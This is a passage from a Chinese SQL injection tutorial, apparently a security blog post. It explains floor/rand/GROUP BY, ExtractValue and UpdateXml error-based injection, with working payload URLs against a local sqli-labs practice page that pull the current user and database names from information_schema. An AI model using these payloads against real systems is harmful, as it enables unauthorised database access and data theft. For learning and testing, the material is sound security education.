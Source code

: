 ** 缺点**: 需要输出 mysql_error( )的报错信息

**floor报错注入**

floor报错注入是利用** count()函数 、rand()函数 、floor()函数 、group by** 这几个特定的函数结合在一起产生的注入漏洞。缺一不可

```
// 我们可以将 user() 改成任何函数，以获取我们想要的信息。具体可以看文章开头关于information_schema数据库的部分
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a) #
​
//将其分解
(select 1 from (Y)a)
​
Y= select count(*) from information_schema.tables group by concat(Z)
​
Z= user(),floor(rand(0)*2)           //将这里的 user() 替换成我们需要查询的函数
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012b3d6ec4c2ba43f0.png)

floor报错注入参考：[https://blog.csdn.net/zpy1998zpy/article/details/80650540](https://blog.csdn.net/zpy1998zpy/article/details/80650540)

ExtractValue报错注入

> <blockquote style="box-sizing: border-box; margin: 0.8em 0px; border-left: 4px solid #dfe2e5; padding: 0px 15px; color: #777777; font-family: 'Open Sans', 'Clear Sans', 'Helvetica Neue', Helvetica, Arial, sans-serif;">
EXTRACTVALUE (XML_document, XPath_string)

**· ** 第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称

**· ** 第二个参数：XPath_string (Xpath 格式的字符串).

作用：从目标 XML 中返回包含所查询值的字符串

ps: 返回结果 限制在32位字符

```
// 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,user(),0x7e))#
​
// 通过这条语句可以得到所有的数据库名，更多的关于informaion_schema的使用看文章头部
http://127.0.0.1/sqli/Less-1/?id=-1'  and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e))#
```

### [![](https://p5.ssl.qhimg.com/t01932bab806b9b9ec4.png)](https://p5.ssl.qhimg.com/t01932bab806b9b9ec4.png)

**UpdateXml报错注入**

UpdateXml 函数实际上是去更新了XML文档，但是我们在XML文档路径的位置里面写入了子查询，我们输入特殊字符，然后就因为不符合输入规则然后报错了，但是报错的时候他其实已经执行了那个子查询代码！
